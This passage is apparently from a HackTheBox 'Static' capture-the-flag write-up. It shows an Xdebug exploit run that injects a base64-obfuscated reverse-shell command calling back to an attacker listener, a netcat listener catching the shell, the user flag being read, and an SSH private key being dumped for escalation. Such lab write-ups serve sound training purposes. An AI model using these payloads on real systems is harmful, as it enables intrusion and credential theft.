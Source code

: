 ```console
elpollon@elpollon:~/HTB/Static/exploits$ python exploit_shell.py
498<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/vpn/login.php" language="PHP" xdebug:language_version="7.2.1-1ubuntu2" protocol_version="1.0" appid="49" idekey="phpstorm"><engine version="2.6.0"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2018 by Derick Rethans]]></copyright></init>
>> shell_exec('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMzAuMC45LzQ0MyAwPiYxCg==" | base64 -d | bash'); 

```
Now we got the shell as **www-data** user.

```console
elpollon@elpollon:~/HTB/Static/exploits$ nc -nlvp
listening on [any] 443 ...
connect to [172.30.0.9] from (UNKNOWN) [172.30.0.1] 53776
bash: cannot set terminal process group (37): Inappropriate ioctl for device
bash: no job control in this shell
www-data@web:/var/www/html/vpn$ 
```

Intrusion done. We can see the user flag on **/home**.

```console
www-data@web:/var/www/html/vpn$ cd /home
cd /home
www-data@web:/home$ ls -l
ls -l
total 8
-rw-r--r-- 1 root     root       33 Apr  3  2020 user.txt
drwxr-x--- 4 www-data www-data 4096 Jun 14 08:02 www-data
www-data@web:/home$ cat user.txt	
cat user.txt 
c3f343befcac5fa92fb5373456e94247
www-data@web:/home$ 
```

### Privilege Escalation

I found an **id_rsa** in **/home/www-data/.ssh** directory. This was useful to connect via ssh to **web** host for a more stable shell.

```console
www-data@web:/home/www-data$ ls -la
ls -la
total 16
drwxr-x--- 4 www-data www-data 4096 Jun 14 08:02 .
drwxr-xr-x 3 root     root     4096 Jun 14 07:56 ..
lrwxrwxrwx 1 root     root        9 Jun 14 08:02 .bash_history -> /dev/null
drwx------ 2 www-data www-data 4096 Jun 14 08:00 .cache
drwx------ 2 www-data www-data 4096 Jun 14 07:54 .ssh
www-data@web:/home/www-data$ cd .ssh
cd .ssh
www-data@web:/home/www-data/.ssh$ ls -l
ls -l
total 12
-rw-r--r-- 1 www-data www-data  390 Jun 14 07:54 authorized_keys
-rw------- 1 www-data www-data 1675 Jun 14 07:34 id_rsa
-rw-r--r-- 1 www-data www-data  390 Jun 14 07:34 id_rsa.pub
www-data@web:/home/www-data/.ssh$ cat id_rsa	
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
QEHYKteL1D+hJ80NDd7fJTtQgzT4yBDwrVKwIUSETMfWgzJ5z24LN5s/rcQYgl3i
```